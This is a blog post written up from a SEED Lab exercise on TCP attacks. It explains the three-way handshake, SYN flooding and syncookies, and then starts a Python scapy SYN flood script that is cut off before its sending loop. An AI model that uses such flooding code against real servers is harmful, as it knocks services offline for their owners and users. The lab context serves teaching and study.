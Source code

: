 ```yaml
---
layout: post
title: TCP Attacks
categories: [tcp, scapy]
excerpt: To understand TCP attacks, you have to, first of all, understand how TCP works. TCP is a connection-oriented protocol. This simply means that before two hosts that want to exchange information begin the information exchange, both hosts must ascertain that they can in fact talk to one another.
---
```


To understand TCP attacks, you have to, first of all, understand how TCP works. TCP is a connection-oriented protocol. This simply means that before two hosts that want to exchange information begin the information exchange, both hosts must ascertain that they can in fact talk to one another. They do this via a 3-way handshake
- the client sends a `syn` to the server
- the server receives the `syn` and responds with a `syn ack`
- the client receives the `syn ack` and responds with `ack`
- a TCP session is established

In this post, I aim to document my findings and observations while performing a SEED Lab.

```
Attacker: 10.9.0.1
Server: 10.9.0.5
Client: 10.9.0.6
```

<br>

### SYN Flooding Attack
From the opening paragraph, we have an idea of how TCP works. It establishes connections using the 3-way handshake:
1. `SYN`
2. `SYN-ACK`
3. `ACK`

Should the `client` keep sending `syn` without responding to the `syn ack` it gets back, eventually, the `server` would become overwhelmed and will not be able to take any more requests leading to DoS. This is so because the `server` has a finite queue where it stores `syn` packets. The queue frees up when a corresponding `ack` is received or the `syn` packet is dropped after some time.

We can check the syn queue size for Ubuntu systems via `# sysctl net.ipv4.tcp_max_syn_backlog`. However, Ubuntu systems come with syn flooding protection called syncookies. You can check the status via `# sysctl  net.ipv4.tcp_syncookies`.

A SYN flooding attack can be launched with Python using the code below

```python
#!/bin/env python3
import sys
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

def main():
    # Ensure correct usage
    if len(sys.argv) != 3:
        usage()
        sys.exit(1)
    
    # Unpack values
    ip = IP(dst = sys.argv[1])
    tcp = TCP(dport = int(sys.argv[2]), flags='S')

    print(f'Attacking {sys.argv[1]}...')
```